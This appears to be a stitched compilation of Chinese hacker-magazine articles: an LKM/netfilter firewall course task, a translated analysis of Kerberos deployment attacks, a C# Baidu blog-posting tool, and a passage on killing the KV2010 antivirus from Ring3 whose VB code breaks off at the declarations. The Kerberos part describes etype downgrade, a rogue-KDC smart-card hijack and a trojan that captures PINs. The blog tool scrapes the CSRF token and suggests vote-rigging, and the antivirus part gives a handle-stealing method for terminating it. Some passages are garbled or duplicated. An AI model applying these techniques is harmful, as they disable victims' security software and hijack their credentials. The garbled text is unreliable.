本任务使用 LKM 和 netfilter 实现包过滤模块。模块从数据结构读取防火墙策略并据此决定是否阻止数据包，支持动态配置更新；管理员修改策略后，已安装模块可立即执行更新策略。

策略存储：配置工具运行在用户空间，因此需要把策略发送到内核中的包过滤模块。出于性能考虑，策略应存储在内核内存而非文件中。

## 程序设计

### 1. 可加载的内核模块 LKM

示例模块加载时打印“Hello World!”，移除时打印“Bye-bye World!”；消息不在屏幕显示，而输出到 `/var/log/kern.log`。

```c
#include <linux/module.h>
#include <linux/kernel.h>
MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Hello-World Module");
MODULE_AUTHOR("Netsec Student");

int hello_init(void) {
    printk(KERN_INFO "Hello World!\n");
    return 0;
}

void hello_exit(void) {
    printk(KERN_INFO "Bye-bye World!\n");
}

module_init(hello_init);
module_exit(hello_exit);
```

接着创建 Makefile 编译模块（源文件名为 `hello.c`），执行 `make` 后可生成可加载的内核模块（LKM）。

```makefile
obj-m += hello.o
all:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) modules
clean:
	make -C /lib/modules/$(shell uname -r)/build M=$(PWD) clean
```

模块编译完成后，可通过命令加载、查看和移除模块。

```bash
%sudo insmod mymod.ko   # inserting a module
% lsmod                 # list all modules
%sudo rmmod mymod.ko    # remove the module
```

### 2. 内核模块通信方式

防火墙的包过滤功能在内核中实现，但策略配置在用户空间完成，因此需要设计用户态与内核态之间的通信机制。

户空间中完成。此时我们需要建立一个通信机制，确保策略配置文件从用户空间程序传递到内核模块。当前存在以下几种方法可以达到该目的，标准的方法即使用 proc 文件系统，主要挂载在 `/proc`。如需详细说明，请阅读 http://www.ibm.com/developerworks/linux/library/l-proc.html 中的信息。也可参考译者发表在《黑防》2009 年第 10 期上的文章《Linux 下利用 Proc 虚拟文件实现进程隐藏》。一旦为内核模块创建好了 `/proc` 文件，我们就可以使用标准的 `write()` 和 `read()` 系统调用来进行内核与用户层间的数据通信。

### 3. 使用 Netfilter 的一个简单程序

利用 netfilter 防火墙是非常简单的。只需要将内核模块中我们需要的 hook 函数挂接到相应的 netfilter hook 点中。下面展示了一个丢弃所有 IP 数据包的例子。

```c
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>

MODULE_LICENSE("GPL");
MODULE_DESCRIPTION("Linux LKM Firewall");
MODULE_AUTHOR("Netsec Student");

/* 用于注册 hook 函数的 netfilter 结构 */
struct nf_hook_ops hook_options;

/* 用于 netfilter hook 的回调函数 */
unsigned int process_packet(unsigned int hooknum, struct sk_buff *skb,
    const struct net_device *in, const struct net_device *out,
    int (*okfn)(struct sk_buff *))
{
    return NF_DROP;    // 丢弃包
}

/* 模块初始化函数 */
int firewall_init(void)
{
    printk(KERN_INFO "initializing firewall module\n");
    hook_options.hook = process_packet;
    hook_options.hooknum = NF_INET_PRE_ROUTING;
    hook_options.pf = PF_INET;
    hook_options.priority = NF_IP_PRI_FIRST;
    nf_register_hook(&hook_options);
    return 0;
}

void firewall_exit(void)
{
    /* unregister hook with netfilter when removing module */
    nf_unregister_hook(&hook_options);
    printk(KERN_INFO "removing firewall module\n");
}

/* 为模块初始化和移除指定回调函数 */
module_init(firewall_init);
module_exit(firewall_exit);


```

### 4. Iptables 程序

Linux 中名为 iptables 的工具，在本质上是一个建立在 netfilter 机制上的防火墙。可以将个人防火墙作为一个微型 iptables。现在鼓励大家参考 iptables 工具来设计个人防火墙，但是严禁复制 iptables 代码。此外，现有一些教程提供了简单防火墙设计代码。大家可以学习这些教程和示例代码，但必须亲自动手编写自己的代码。在项目报告中，必须提交程序代码并注释其关键部分。

### 5. 解析命令行参数

强烈推荐使用 getopt 库函数来解析用户空间程序中的命令行参数。请在以下网址阅读详细教程：http://www.gnu.org/s/libc/manual/html_node/Getopt.html。

### 6. 环境

建议在开发该项目时使用 Ubuntu 9.10 桌面版和 VirtualBox 工具。Ubuntu 系统安装了所有默认需要的工具。可以在 http://www.ubuntu.com 下载 Ubuntu 9.10，同时可在 http://www.virtualbox.org 中下载 VirtualBox。

### 7. 额外资源

除了上述提供的网址之外，也可以参考《Linux 设备驱动》的在线网址：http://www.makelinux.net/ldd3。Netfilter 网站也有许多信息：http://www.netfilter.org。还可在 Linux 内核中搜索有关结构定义等代码，http://lxr.linux.no 就是一个提供该功能的在线网站。

前置知识：无

关键词：Kerberos、攻击

# Kerberos 协议部署的攻击桌面分析
文/Rachel, Brad, Scott　译/小小杉

Kerberos V4 的一个重大安全缺陷，是其只能支持一种加密算法，即 DES。在 Kerberos V4 发布时，DES 算法足以确保协议会话的机密性，但此算法至今已经 35 年了，DES 现在已经不再是一种安全的加密算法。以现在计算机的并行处理能力，破解采用 56 位密钥加密的数据已经不再是难事。不同于 Kerberos V4，V5 则进一步对 V4 中的某些安全缺陷做了改进，不仅完善了 V4 所采用的基于 DES 的加密算法，而且还允许用户根据自己的实际需要选择其他加密算法，使得安全性得到了进一步提高。然而，对于密码算法的动态选择，客户端、KDC（密钥分配中心）以及服务器端三方之间需要在会话之前进行密码算法协商。

## 加密算法集

加密类型（简称“etypes”）在 Kerberos 协议中是一套标准的加密算法集。换句话说，它们包含加密算法、完整性函数、块加密模式、安全策略，类似 TLS 加密套件。协议消息中具体采用哪个 etype，使用一个整型变量标识，如 RFC 3961 指定值“3”为 DES-CBC-MD5 加密类型，并对如何按照此标准管理受保护的数据信息提供完整方案；RFC 3962 定义了基于 AES 标准的 etype，RFC 4757 提供了 Windows 平台下使用的 RC4 标准 etype。

协议消息中用于保护敏感数据的 etype，或者事先协商，或者可从上下文中推断出来。数据保护中需要协商 etype 的地方，如客户端向认证服务器 AS 发送 AS-REQ 请求中的认证值、客户端向票据授权服务器 TGS 发起的 TGS-REQ 票据请求。

当前 Kerberos 协议的大多数实现都是采用预认证的方式，即为了接收到 AS 发送出的 AS-REP 响应，客户端必须在 AS-REQ 请求中包含一个认证值 authenticator。以下是一个预认证的 AS 交换方式，如图 1 所示。
图 1 认证服务交换

在这种情形下，用于加密认证的有效加密类型 etypes 列表由客户端发起的 AS-REQ 和服务端 AS 给出的 ERR_PREAUTH_REQUIRED 响应决定。客户端负责在有效 etypes 列表中选择“最好”的 etype 来确保会话认证流程。当前几乎每一个默认的 Kerberos 部署策略都会选择一个性能较好的 etype。

etype 的协商主要兴趣点有两个：其一，当使用基于密钥的认证方式时，AS-REQ 请求认证消息会使用一长串的客户密钥加密处理；这种密钥认证方式最大的弱点是很难协商出一个密钥。其二，这种交互绝大多数情况下双方没有认证，即没有密钥来确保协议协商过程。攻击者可以很容易地操纵此类协商。

## Etypes 弱化

对此类消息攻击的目标显然是 etypes 的协商过程。事实上，攻击者可劫持未认证的 AS-REQ 请求或 PREAUTH_REQUIRED 响应，以迫使客户端采用任何一种可支持的 etype 实现会话认证。修改未认证的 AS-REQ 请求使得攻击者轻松骗过 KDC 可支持的 etype。KDC 会从攻击者提供的 etypes 列表中选择一个它能支持的 etype，并向客户端发送 PREAUTH_REQUIRED 错误消息。此错误消息包含一个可接受的 etypes 列表以及针对某个具体 etype 客户端需要的加密参数 salt。若客户端支持服务端提供的所有 etypes（受攻击者干预），其将会使用攻击者给出的任一较弱 etype 来保护 Kerberos 会话；反之，若客户端不支持服务端送来的 etype，则协议交换将会重新发起或者终止。

同样，攻击者修改 PREAUTH_REQUIRED 错误消息也可达到目的。实际上，攻击者也可欺骗客户端当前 server 可接受的 etypes。其一，攻击者可迫使 client 使用 server 不支持的 etypes；其二，攻击者可控制 etype 的可选参数如 salt data。总之，正如修改 AS-REQ 请求，client 和 server 端都必须支持已选择的 etype，否则无法实现端到端的相互认证。若 KDC 不支持攻击者选择的 etype，则 KDC 会返回一个 ETYPE_NOT_SUPPORTED 错误，并选择性地提供一个可支持的 etypes 列表返回给 client。

## etype 弱化的优点

攻击者通过弱化 AS 协商后的 etype，可以对 client 端发送的认证会话实施攻击。首先，最近的 etypes，即基于 AES 加密算法的 etypes，已被认为是抵御密码暴力破解最有效的算法。但使用 PBKDF2 密钥导出函数时，依据用户密码导出一个密钥的计算成本将大大增加，因为其需要反复对用户密码进行散列以满足配置的迭代次数。此方法需要一个可信赖的 salt 值作为输入参数，通过 PBKDF2 函数导出一个足够复杂且难以猜测的密钥。

将 etypes 弱化成一个较老的加密算法，则可有效实施密码穷举分析。Frank 曾给出了针对 RC4 加密算法实施此类攻击的可行性。甚至，攻击者可设置一个对密钥破解有益的 salt 值和迭代次数来提升密码穷举分析的成功率。此类攻击实现细节的分析将极大地影响 Kerberos 客户端的实现与配置，是一个很有趣的研究项目。

其次，攻击者可迫使 client 和 server 使用受控制的加密算法（即对应的密钥可能已经借助暴力攻击破解）来加密认证会话。各种基于 DES 的 etypes 以及 RC4 的 etypes 都是此类攻击的首选类型。复现此类加密算法的密钥（用于加密认证会话）将会提供一个长期有效的 Kerberos 私钥认证。此类攻击通过有效地弱化 AS-REQ 请求协商后的 etypes，可完全控制整个受弱密钥保护的认证会话。

## 前认证漏洞利用与权限提升

对于 MIT 和 Heimdal Kerberos 客户端而言，携智能卡登录的 kinit 命令可实现一次简单有效的权限提升。在活动网络中，攻击者可在网络通信中充当“中间人”，以欺骗 KDC 及远端服务器。对于一个 SSH 会话而言，我们可以捕获到会话认证密钥；或者若 Kerberos 用于认证一个远端文件服务器，则可提供一个可执行木马程序进而控制用户会话。

对于 Windows 客户端而言，创建一个权限提升路径（PATH）有点困难。Windows 的 PKINIT 仅在包含智能卡，同时用户正在尝试登录或者验证一个工作站时生效。KDC 会发送 AS-REQ 请求，申请票据授权票据 TGT。攻击者此时可以成功介入并充当伪 KDC，用自己捕获的证书对 AS-REP 加密后发给 Client。Client 收到请求并用自己的私钥解密 AS-REP 报文，然后向 KDC 的 TGS 票据授权服务发起 TGS-REQ 请求，以获取访问对应服务器工作站的服务票据。

此时，显然伪造的 KDC 无法为其提供访问指定 Server 的票据，因为其根本不知道真实 KDC 与对应 Server 事先协商好的密钥，故不可能构造 `K[c,s]，c，c_mac，AppServ，TS，lifetime|Ks` 的服务票据……故 client 端与伪造 KDC 的整个会话认证过程就失败了。

域加入场景中，工作站 client 不需要服务票据即可实现加入。加入一个域之前，工作站 client 账户并不存在，其账户与密码是在作为域加入过程的一部分被创建。若采用智能卡方式执行域加入，则伪造的 KDC 能够欺骗整个过程并控制 KDC。

典型的攻击即寻找一个已加入到域中的网络环境。现在的问题是能否获取到工作站 client 与 KDC 协商的账户密钥。为了实现完整的漏洞利用，Attacker 可能会迫使受害者在不知情的情况下登录到工作站 Server。这里假设域内任意用户都有权限访问所有工作站 Server。为了描述这类攻击行为，现假定伪造的 KDC 命名为 Ivan，victim 无辜受害者为 Connie，真实 KDC 为 Bob，工作站 Server 为 Wally。

- 1. Alice 尝试使用智能卡访问真实 KDC，但被 Ivan 利用，导致 Alice 向 Ivan 发起 AS-REQ 请求。
- 2. Ivan 收到 AS-REQ 请求后，随机产生一个 TGT 票据，用 Alice 的密钥加密，但在 TGT 票据中设置的客户端实体并不是 Alice，而是替换成 Connie 用户。
- 3. Alice 收到 Ivan 发送的响应 AS-REP 后，立即构造一个 TGS-REQ 请求报文，向 Ivan 申请访问工作站 Server: Wally 的服务票据。
- 4. Ivan 由于无法获取到 Wally 与 KDC 协商的密钥，故不可能构造出访问 Wally 的服务票据 S_Ticket，故 Ivan 启用 victim，要求 Connie 访问 Wally。
- 5. Connie 收到 Ivan 的命令后，立刻构造 AS-REQ 请求，发往真实 KDC：Bob。
- 6. Bob 向 Connie 发送 TGT 票据。
- 7. Connie 构造 TGS-REQ，向 TGS 请求访问 Wally。
- 8. Bob 构造一个合法的 S_Ticket 服务票据发送给 Connie。
- 9. Connie 用 Bob 与自己协商的会话密钥 K(CT) 解密 TGS-REP，得到 Connie 与 Wally 通信的会话密钥 K(CW)。
- 10. Ivan 获取到 K(CW) 和访问 Wally 的合法票据 S_Ticket 后，即可构造一个 AS-REP 响应 Alice：`{K(CW)|K(AT)}，S_Ticket`。
图 2 Kerberos 协议会话认证漏洞利用

仔细的读者可能对整个会话过程存在疑问。首先，在步骤 2 中，当 Ivan 向 Alice 发送 TGT 票据（包含的客户端实体为 Connie）时，为何 Alice 会以合法响应接受 AS-REP 请求。答案就是用户实体别名机制，其在 IETF Kerberos 工作组草案《Kerberos Principal Name Canonicalization and KDC Generated Cross-Realm Referrals》中有描述。

用户实体别名机制的目的，是允许用户使用相似名称（作为用户在 Kerberos 协议中实体名的别名）来访问。这种机制使得管理员能够在真实用户不知情的情况下将用户实体转移到另一个 realm 中，或者在支持智能卡访问方式时，用 realm 的某一 Kerberos 实体充当第三方智能卡实体。

在使用用户实体别名机制时，用户实体名称不再与 Kerberos 实体或 realm 存在直接关系。KDC 可能会在作出 AS-REP 响应时改变 client 和 server 实体名以及 Tickets。在 TGS 交换过程中，服务器实体名及类型也可能发生改变。

Windows 默认状态下已经开启用户实体别名机制，故其在步骤 2 中会接受用户名为 Connie 的请求。在智能卡开启活动目录域时，可以借助“活动目录用户与计算机”工具，在用户属性页的“账户”Tab 上交换用户登录名，此时用户 A 的智能卡将会以用户 B 的身份登录。

依据上面的分析，引出了下一个问题：谁真正在访问工作站 Server。Alice 认为她已经登录到工作站 Server，但实际上是以 Connie 身份登录。若攻击者能够完全控制 victim：Connie，则权限提升是否已经做到呢？实际上并没有。

但攻击者已经在某种程度上很好地完成了这个任务。Alice 已经用一张智能卡和她的 PIN 码登录到一个合法有效的工作站，但实际上是以另一用户账户登录的，这是完全意想不到的。此时攻击者拥有一个工作站信赖的用户，完全可以控制 Alice 的整个会话过程，并借助策略或者其他机制使其立即运行起来。

读者在阅读上面对图 2 的漏洞利用过程解析时，可能会对 Kerberos 协议中出现的一些专业术语不太理解。下面对这些术语进行简单解析。

- 2）Ivan 收到 AS-REQ 请求后，随机产生一个 TGT 票据，用 Alice 的密钥加密，但在 TGT 票据中设置的客户端实体并不是 Alice，而是替换成 Connie 用户。
- 3）Alice 收到 Ivan 发送的响应 AS-REP 后，立即构造一个 TGS-REQ 请求报文，向 Ivan 申请访问工作站 Server: Wally 的服务票据。其中，TGS-REQ 请求报文具体内容：`{TGT 票据，Server: Wally，Authenticator}`。

- 1. Principal：在 Kerberos 协议里，Principal 即参与认证的基本实体。一般来说有两种，一种用来表示 Kerberos 数据库中的用户，另一种用来代表某一特定主机。即 Principal 用来表示客户端和服务端身份的实体，其由三个部分组成：名字（name）、实例（instance）、REALM（域），如 `name/instance@REALM`。
- 2. Realm：Kerberos 在管理上的划分，在 KDC 中所负责的一个域数据库称作 Realm。这个数据库中存放有该网络范围内的所有 Principal 和它们的密钥，数据库内容被 Kerberos 的认证服务器 AS 和票据授权服务器 TGS 所使用。
- 3. Credential：Ticket 和与它相关联的会话密钥合在一起称为 Credential。之所以有这个概念，是因为它们是客户端在向服务器证明自己身份时所需的两样东西。在一个 Ticket 的生存期内，客户端会将这两样东西以 Credential 为单位保存在一个 Cache 文件中。
- 4. Authenticator：在客户端向服务端进行认证时，伴随 Ticket 一起发送的另外一个部分，它的作用是证明发送 Ticket 的用户就是拥有 Ticket 的用户，即防止重放攻击。其主要内容是一个时间戳（客户端发送 Ticket 的时间）及生命周期 lifetime。

为了完成权限提升，攻击者可运行一个执行程序并伪冒成更新程序安装。运行结束后，显示工作站屏幕解锁。Alice 可能会插入智能卡并键入 PIN 码以连接工作站。合法的智能卡登录或者解锁过程需要关注安全序列“Ctrl-Alt-Delete”，但若 Alice 并没有注意到这个步骤，则木马程序可以捕获她键入的 PIN 码，解锁密码服务供应商提供的智能卡，并构造一个用户模式的 AS-REQ 请求发送给真实 KDC，然后解密返回的 TGT 票据。此时，攻击者可以以 Alice 身份访问所有资源，如获取 Alice 的 TGT 票据中的 NT OWF（One-way Function）。TGT 票据可以无限次访问任何网络资源，因其接受 NTLM 身份认证。若 Alice 不仅是智能卡用户，则 OWF 还可用于非 PKINIT 的 Kerberos 认证，也可能被用于暴力攻击以复现明文密码。攻击者也可能短期访问 Alice 的实体并安装恶意软件，以期在工作站长期控制 Alice 的会话。捕获到 Alice 的 PIN 码后，恶意可执行文件可伪装成软件更新完成，卸载已安装的恶意软件并强制系统重启。Alice 很难察觉到有恶意程序利用她实施攻击。为了完成攻击者的终极目的，可以重复这个过程，直到攻击者获取到用户与工作站之间的有效会话信息。

## 进一步分析

此类攻击可通过部署一个新的 Kerberos 认证模块实现域间迁移，在 Windows Server 2008 及后续版本的活动目录证书服务链上即可用。可针对所有控制器在 Vista SP1 上启动“Require Strict KDC Validation”策略，并从连接 Windows KDC 的 MIT 和 Heimdal 客户端配置选项中移除 `pkinit_require_eku=false`。Windows XP 系统不可能对这种即时写入技术进行处理，若 XP 升级策略不可选，则唯一的保护策略是在企业证书的整个授权过程中禁用模板，并严格控制 Web Server 的签发。

在对 KDC 进行初始认证后，Kerberos 协议的终极目标是能够认证并确保与一些 Server 进行安全通信，如 LDAP、CIFS 和 RPC 等。在 Kerberos 中对某一个特定 Server 进行认证的行为主要依赖 AP-REQ 消息完成。尽管 Kerberos 协议可对上层应用协议提供比较强大的密码安全认证保护，但大多数 Kerberos 服务在实现中总是简化认证，导致 AP-REQ 消息可被攻击者实施重放攻击，进而利用一些比较薄弱的服务。

当前存在大量重放攻击类型。Kerberos 协议指定服务应该支持一个应答缓存 Cache，以探测先前见到的消息类型，并推荐该 Cache 在所有服务中作为同一 Kerberos 实体操作共享。重放攻击不仅仅是针对某一个预定目标服务实施，更有趣的是利用捕获并重用一个 AP-REQ 去认证一个不同的服务。该服务有可能提供或需要不同的安全保证。例如，我们可以使用 Authenticator 发送低价值的明文消息，并用它来认证一个高价值服务，从而获取更有价值的消息。当多个 servers 操作同一个 Kerberos 账户实体时，这是完全可能的。在一个给定主机上，当大量服务都运行在相同实体上时，就可在跨协议之间捕获并重用 AP-REQs。

## 结论

尽管 Kerberos 协议是一个相对古老的加密安全认证协议，但其至今仍被广泛使用，特别是在分布式系统里。Kerberos 协议设计的目的是解决分布网络环境下用户访问网络资源时的安全问题，它利用集中的认证取代分散的认证，以减轻服务器负担，至今仍被认为是安全研究领域卓有成效的安全协议。本文主要针对如何对 Kerberos 协议部署进行漏洞利用，并不是对其协议本身理论进行阐述。若读者对 Kerberos 协议本身还不是太清楚，可以参考译者发表在《黑防》2009 年第 7 期上的文章《Kerberos 安全协议解析与编程实现》；若读者对 Kerberos 协议的安全部署想更深入学习以及跟踪协议后期发展，可参考 https://www.isecpartners.com 网站上给出的相关文章。

前置知识：C#  
关键词：C#、百度空间

## C#编写百度空间离线博客工具
文/图 Handt 换心

目前，适用于百度空间的离线博客工具只有一款，即菊子曰。该软件提供了很好的 UI，而且支持本地预览效果。但是，存在三个问题：不能直接在编辑器中插入本机图片，不支持代码高亮，代码不开源。“菊子曰”中只能插入网络上的图片，这就要求用户有支持外链的空间，而大多数情况下，Blog 的图片都来自本地。本程序最大的亮点就是实现了远程存图功能。当然，为了实现文章的完整性，我将完整介绍必要的知识。因此，你可以从本文看到如何使用 WebClient 进行模拟登录，如何绕过百度的 CSRF 验证，如何实现远程存图功能，以及一些扩展和完善的思路。

## 总体分析

所谓磨刀不误砍柴工，我们先对百度空间进行一个整体的分析。下面列出几个重要的 URL 地址。登录：http://passport.baidu.com/?login，个人信息检测：hi.baidu.com/sys/checkuser/用户名/3，图片上传地址：http://hiph.baidu.com/用户名/upload，文章分类信息：http://hi.baidu.com/用户名/blog（从 HTML 中获取），离线博客工具的模块划分和流程如图 1 所示。

## 登录

在 .Net Framework 中，涉及 Web 请求的主要有三个大类：WebRequest、WebClient 和 HttpWebRequest，均位于 System.Net 命名空间下。这三者的关系是：WebRequest 是 .NET Framework 中请求/响应模型的抽象基类，而 HttpWebRequest 和 FileWebRequest 是它的派生类。WebClient 相当于集成者，将 Web 请求和回应都封装到了里面，更方便用户使用。

本软件选用 WebClient 进行网络访问。我们在浏览器中进行登录，本质上是通过浏览器以 Post 方式将输入信息提交到服务器。而要在软件中实现登录，可以通过 WebClient 的 UploadString() 方法实现。在这之前，我们要知道 Post 是什么内容。首先，观察一下在浏览器中登录的情况。这里推荐使用 Firefox + live http 扩展来观察，live http 可以很清晰地捕获到你 Get 或 Post 到服务器的数据。来到百度的登录页面：https://passport.baidu.com/?login，输入数据，先别提交，打开 live http，勾选上下方的 capture。然后提交，可以看到 live http 中有了如下数据，如图 2 所示。
图中标出了 Post 的内容：

```
tpl_ok=&next_target=&tpl=&skip_ok=&aid=&need_pay=&need_coin=&pay_method=&u=...&return_method=get&more_param=&rtn=&type=&psp_tt=0&password=我的密码（不含特殊）&safeflg=0&username=handt03&verifycode=
```

下面我们具体实现登录过程，直接看代码（篇幅有限，都只给出核心代码，完整代码可以到黑防官方网站下载）：

```csharp
// 用户登录
public bool Login(string username, string password)
{
    WebClient bdClient = new WebClient();
    // 通过访问 sys/checkuser/用户名/3 的返回结果判断
    // 是否登录成功
    if (checkuser(username)) {
        return false;
    }
    try {
        bdClient.ReqUrl = "http://passport.baidu.com/?login";
        bdClient.ReqString = "&username=" + HttpUtility.UrlEncode(username, this.Encode)
            + "&password=" + HttpUtility.UrlEncode(password, this.Encode);
        bdClient.reqHttp(true);
        if (Regex.IsMatch(this.Bdwebclient.ReqResult, "http://passport.baidu.com/")) {
            this.Username = username;
            this.Password = password;
            this.IsVerify = true;
            return true;
        }
    }
    catch (WebException e) {
        e.Source = this.Bdwebclient.ReqString;
        throw e;
    }
    return false;
}
```

```csharp
Match match = Regex.Match(strtemp, @"^\w+=[^=]{1,}");
if (match.Success) {
    this.Cookies = this.Cookies + match.Value + ";";
}

// 不传送空字符串，在 checkuser() 方法中会用到
StreamReader reader = new StreamReader(this.Hiwebclient.OpenRead(new Uri(this.ReqUrl)), this.Encode);
this.ReqResult = reader.ReadToEnd();
reader.Close();

finally {
    this.Hiwebclient.Dispose();
}
return this.ReqResult;
```

尤其要注意的是 `ServicePointManager.Expect100Continue = false;` 这句话，如果不加的话，会一直出现 417 错误，也就是没法连接到远程服务器。大致原因是服务器的认证方式导致的。现在，我们已经顺利登录到服务器了，接下来，读取指定用户的一些必须信息，比如：文章分类、令牌信息。

其中，重要的是 reqHttp() 方法，代码如下：

```csharp
public string reqHttp(bool needCookies)
{
    ServicePointManager.Expect100Continue = false;
    try {
        if (this.Cookies != null && this.Cookies != "") {
            this.Hiwebclient.Headers.Add(HttpRequestHeader.Cookie, this.Cookies);
        }
        if (this.Referer != null && this.Referer != "") {
            this.Hiwebclient.Headers.Add(HttpRequestHeader.Referer, this.Referer);
            this.Referer = "";
        }
        if (this.ReqString != null && this.ReqString != "") {
            this.Hiwebclient.Headers.Add(HttpRequestHeader.ContentType, "application/x-www-form-urlencoded");
            this.ReqResult = this.Hiwebclient.UploadString(new Uri(this.ReqUrl), "post", this.ReqString);
        }
        if (needCookies) {
            this.Cookies = "";
            foreach (string strtemp in Regex.Split(this.Hiwebclient.ResponseHeaders.Get("Set-Cookie"), "\n")) {
                // ...
            }
        }
    }
}
```

## 数据的获取

大概在 5 月份，百度空间添加了 csrf 验证模块。它的验证机制比较简单，针对每个成功登录的用户，在你发送文章的时候，添加一个隐藏字段 bdstoken，如果你发送的数据中没有这字段或者字段值不正确，就会返回一个“csrf 验证……文章发送失败”的 html 页面。

其实突破 csrf 的方式很简单，因为我们的模拟登录实际上也是正常登录用户，在本地维护了相应的 cookie 信息，我们可以访问发表文章页面，然后从 html 代码中提取 bdstoken 字段的值，实现代码如下：

```csharp
/* 开始获取 bdstoken */
Regex r = new Regex("bdstoken=\\w*&");
Match mc = r.Match(_bdUser.Bdwebclient.ReqResult);
string tmp = mc.Value;
string bdstoken = tmp.Substring(9, tmp.Length - 10);
```

接下来演示如何获取诸如用户文章列表等信息，代码如下：

```csharp
public List<BlogClass> GetClass()
{
    List<BlogClass> blogclasses = new List<BlogClass>();
    try {
        this.Bdwebclient.ReqUrl = "http://hi.baidu.com/" + this.Spacename + "/blog";
        this.Bdwebclient.reqHttp(false);
        string matchPattern = "<div id=\\\"m_n_artclg\\\" class=\\\"modbox\\\">([\\s\\S]+?)</div>";
        Match match = Regex.Match(this.Bdwebclient.ReqResult, matchPattern);
        // ...
    }
}
```

```csharp
if (match.Success){
    String strresult = match.Groups[0].ToString();
    for (match = Regex.Match(strresult,"<div class=\"item\">...<a href=\"(.+)\" title=\"查看该分类中所有文章\">([\\s\\S]+?)<a>(.+)</div>");
         match.Success; match = match.NextMatch()){
        BlogClass blogclass = new BlogClass();
        blogclass.Href = match.Groups[1].ToString();
        blogclass.Name = match.Groups[2].ToString();
        blogclass.Num = int.Parse(match.Groups[3].ToString().TrimStart('(').TrimEnd(')'));
        blogclasses.Add(blogclass);
    }
    return blogclasses;
}catch (WebException e){
    throw e;
}
```

```csharp
this.Bdwebclient.UploadFile(picMs);
Match match = Regex.Match(this.Bdwebclient.Requestsurl,
    "str=\"/" + this.Spacename + "/pic/item/(.+)\"");
if (match.Success){
    return "http://hiphotos.baidu.com/" + this.Spacename + "/pic/item/" + match.Groups[1].ToString();
}
return "";
}catch (WebException e){
    throw e;
}


```

### 文本编辑

秉承决不“重复造轮子”的原则，在如今到处是编辑器的年代，我就直接采用别人写好的编辑器吧。到 codeproject 上可以找到不少，这里选用 kevin delqfield 编写的一款编辑器，因为支持图片的插入，而且封装得不错。至于这个编辑器的使用，大家可以去 codeproject 上该项目的主页学习，在此不再赘述。编辑效果如图 3 所示。
图 3

### 远程存图

远程存图的思路是：首先上传图片到服务器，然后获取该图片的 URL 地址，以网络 URL 替换编辑器中图片的本地地址，下面是实现代码：

```csharp
public string uploadPicture(string albumName, string picPath, MemoryStream picMs)
{
    try
    {
        this.Bdwebclient.Referer = "http://hi.baidu.com/" + this.Spacename + "/creat/picture/blog/";
        this.Bdwebclient.ReqUri = "http://hip.baidu.com/" + this.Spacename + "/upload";
        this.Bdwebclient.ReqString = "BrowserType=1&cm=1&spAlbumName=" + albumName + "...";
        this.Bdwebclient.ReqFile = "spPhotofile0=" + picPath;
        // UploadFile() 功能：post 一个 MemoryStream 到服务器
        ...
    }
}
```

### 提交

在上传了图片之后就可以顺利提交了，下面是提交的代码：

```csharp
private void btnpost_Click(object sender, EventArgs e)
{
    try
    {
        EnableButton(false);
        if (ckbSaveImg.Checked)
        {
            PublishBlog();
            EnableButton(true);
        }
        else
        {
            // 1. 提取出编辑器返回文本中的所有图片地址
            List<string> imgarray = Common.getAllImage(editor.BodyHtml);
            // 2. 去除重复的图片本地地址
            imgarray = Common.removeRepeat(imgarray);
            // 3. 准备线程，异步发送图片
            if (imgarray.Count > 0)
            {
                ShowProgressDelegate showProgress = new ShowProgressDelegate(ShowProgress);
                object obj = new object[] { this, showProgress, imgarray, Bduser };
                asynClass asynclass = new asynClass();
                bool rc = ThreadPool.QueueUserWorkItem(new WaitCallback(asynclass.RunProcess), obj);
            }
            else
            {
                PublishBlog();
                EnableButton(true);
            }
        }
    }
    // 异常处理部分略
}


```

### 拓展

虽然本文实现的是一个离线博客程序，但是将各个部分剥离后可以拓展以下思路：

- 刷票工具（笔者以前实现过）；
- 自动回复工具；
- 本地文本编辑器。

对于本程序，我们还可以进一步添加如下功能：代码高亮、图文混排、本地预览（这涉及将空间的皮肤本地化）等。（支持平台：.Net Framework 2.0 及以上，集成开发环境：SharpDeveloper 3.0.0.3800）（编辑提醒：本文涉及的代码可以到黑防官方网站下载）

前置知识：VB  
关键词：Ring3、KV2010

# Ring3 下终止 KV2010

文/广东工业大学 胡文亮
经过本人最近研究，找到了一种方法可以终止 KV2010。现借助《黑客防线》这个平台，献上 Ring 3 下终止 KV2010 的实现过程。

我测试的 KV2010 是 2010 年 5 月 19 日更新的，安装完毕后，发现关于进程防杀的钩子还是那么几个：ObOpenObjectByPointer（ObpCreateHandle 钩子没有了）、PspTerminateThreadByPointer、KeInsertQueueApc、KiInsertQueueApc。经测试，KV2010 依然没有对“偷句柄”（从 CSRSS 进程中复制句柄）的行为进行处理，所以依然可以在 Ring 3 下用 ZwDuplicateObject 取得 KV2010 进程的句柄。取得句柄后，用 WriteProcessMemory 毁坏进程内存当然是行不通了，但是条条大路通罗马，用 VirtualProtectEx 依然可以达到相同的目的。

在介绍使用 VirtualProtectEx 毁坏进程内存之前，先介绍一个看似不相关的概念：数据执行保护（DEP）。百度百科上对 DEP 是这么介绍的：“数据执行保护（DEP）是一套软硬件技术，能够在内存上执行额外检查以帮助防止在系统上运行恶意代码。在 Microsoft Windows XP Service Pack 2、Microsoft Windows Server 2003 Service Pack 1、Microsoft Windows XP Tablet PC Edition 2005 和 Microsoft Windows Vista 中，由硬件和软件一起强制实施 DEP”。

那么 DEP 是怎么起到保护作用的呢？为监视您的程序，硬件实施 DEP 将跟踪已指定为“不可执行”的内存区域。如果已将内存指定为“不可执行”，而某个程序试图通过内存执行代码，Windows 将关闭该程序以防止恶意代码。无论代码是不是恶意的，都会执行此操作。

我们怎么利用 DEP 来帮助我们结束进程呢？只要把进程内存的有效区域全部改成“不可执行”即可。一旦进程使用到这些已经标识为“不可执行”的内存区域，则会立刻死亡。用 Visual Basic 6.0 实现的主要代码如下：

```vb
Option Explicit
Private Type SYSTEM_INFO
    dwOemID As Long
    dwPageSize As Long
    lpMinimumApplicationAddress As Long
    lpMaximumApplicationAddress As Long
    dwActiveProcessorMask As Long
    dwNumberOfProcessors As Long
    dwProcessorType As Long
    dwAllocationGranularity As Long
    dwReserved As Long
End Type

Private Type MEMORY_BASIC_INFORMATION
    BaseAddress As Long
    AllocationBase As Long
    AllocationProtect As Long
    RegionSize As Long
    State As Long
    Protect As Long
    lType As Long
End Type

Private Declare Function RtlAdjustPrivilege Lib "ntdll.dll" (...) As Long
Private Declare Function VirtualQueryEx Lib "kernel32.dll" (...) As Long
